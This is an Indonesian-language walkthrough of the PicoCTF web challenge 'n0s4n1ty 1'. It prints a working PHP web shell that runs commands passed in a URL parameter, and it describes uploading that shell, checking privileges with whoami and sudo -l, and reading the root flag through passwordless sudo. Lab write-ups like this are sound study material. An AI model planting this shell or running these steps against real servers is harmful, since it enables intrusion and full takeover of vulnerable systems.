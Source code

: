 # n0s4n1ty 1 - PicoCTF

### Detail Informasi
Kategori = Web Exploitation🖥️

Level = Easy🟢

[n0s4n1ty 1](https://play.picoctf.org/practice/challenge/482?category=1&page=1)

![alt text](./gambar/n0s4n1ty-1.png)
## Langkah-langkah pengerjaan
1. Membuat file script.php yang berisi 

~~~
<?php
if(isset($_GET['cmd'])){
    echo "<pre>";
    $cmd = $_GET['cmd'];  
    system($cmd);         
    echo "</pre>";
}
?>
~~~

2. Upload file tersebut ke halaman web challange nya
![Alt text](./gambar/n0s4n1ty-2.png)

3. Setelah di up, maka akan muncul tampilan seperti pada gambar ini
![Alt text](./gambar/n0s4n1ty-3.png)

4. Selanjutnya bisa menambahkan perintah ada url nya yaitu `whoami` untuk mengetahui hak kita sebagai apa dan muncul tampilan `www-data` yang dimana biasanya aksesnya terbatas
![Alt text](./gambar/n0s4n1ty-4.png)

5. Ganti `whoami` dengan `sudo -l` dan muncul tampilan yang menandakan bahwa pengembang tidak memasang sandi untuk semua termasuk root
![Alt text](./gambar/n0s4n1ty-5.png)

6. Karena tidak ada sandi untuk mengaksesnya, maka bisa langsung menjalankan `sudo cat root/flag.txt` dan didaptkan flag nya
![Alt text](./gambar/n0s4n1ty-6.png)